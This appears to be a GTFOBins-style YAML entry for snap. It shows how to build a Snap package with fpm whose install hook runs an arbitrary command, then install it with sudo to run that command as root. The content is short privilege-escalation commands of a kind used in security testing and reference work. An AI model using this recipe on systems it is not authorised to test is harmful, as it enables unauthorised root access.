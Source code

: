 ```yaml
---
functions:
  sudo:
    - description: |
        It runs commands using a specially crafted Snap package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        COMMAND=id
        cd $(mktemp -d)
        mkdir -p meta/hooks
        printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
        chmod +x meta/hooks/install
        fpm -n my-snap -s dir -t snap -a all meta
        ```
      code: |
        sudo snap install my-snap_1.0_all.snap --dangerous --devmode
---
```

